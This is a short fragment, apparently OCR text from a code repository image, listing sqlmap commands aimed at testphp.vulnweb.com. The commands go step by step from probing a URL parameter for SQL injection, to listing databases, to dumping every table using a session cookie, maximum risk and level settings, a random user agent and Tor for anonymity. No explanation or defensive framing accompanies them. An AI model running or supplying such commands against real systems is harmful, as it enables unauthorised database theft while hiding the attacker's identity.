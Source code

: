 

dump
- sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1"
- sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
- sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D <db-name> --cookie="security=low; PHPSESSID=13o5hlkjs3hur2pvnfkgim9t74" --dump-all --batch --output-dir="db-dump" --random-agent --risk=3 --level=5 --tor

Upload File
